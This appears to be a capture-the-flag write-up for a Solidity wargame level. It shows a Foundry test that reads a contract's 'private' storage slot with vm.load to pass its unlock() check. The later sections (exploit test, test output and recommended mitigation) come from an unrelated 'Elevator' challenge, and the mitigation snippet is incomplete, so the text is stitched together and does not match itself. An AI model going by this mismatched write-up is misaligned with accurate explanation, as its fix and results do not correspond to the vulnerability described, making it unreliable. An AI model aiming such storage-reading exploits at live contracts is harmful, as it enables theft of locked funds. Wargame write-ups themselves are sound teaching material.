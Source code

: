 Even though the array is marked private, all contract storage is publicly accessible on the blockchain — which means the attacker can read the storage slot directly using vm.load in Foundry or with web3.eth.getStorageAt in a live attack.

### 🔍 Vulnerable Function
```solidity
function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
}
```

**Vulnerability**: 
Solidity stores contract variables sequentially in storage slots:

⚡Slot 0: locked

⚡Slot 1: ID

⚡Slot 2: flattening, denomination, awkwardness

⚡Slot 3, 4, 5: data[0], data[1], data[2]

⚡Slot 5 holds data[2] — and the unlock() function casts it to bytes16, so we only need the first 16 bytes.

### 🛠️  Exploit Contract
vm.load() reads the raw 32 bytes from a given storage slot.
The value is then cast to bytes16 and passed into the unlock() function.

```solidity
function test_attack() public {
    bytes32 value = vm.load(address(privacy), bytes32(uint256(5)));
    console.log("value of slot 5", string(abi.encodePacked(value)));

    privacy.unlock(bytes16(value));
    assertTrue(privacy.locked() == false);
}
```


### 🧪 Exploit Test
```solidity 
  function test_attack() public {
    attackerContract.attack(); // Call via attacker
    assertEq(elevator.top(), true);
    assertEq(elevator.floor(), 1);
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 67276)
Elevator::top() → true
Elevator::floor() → 1

```
### 🔒Recommended Mitigation
Ensure external calls are not made multiple times for critical logic — or cache the result:
``` solidity
function goTo(uint256 _floor) public {
    Building building = Building(msg.sender);
    bool isLast = building.isLastFloor(_floor);

    if (!isLast) {
        floor = _floor;
        top = isLast;
    }
```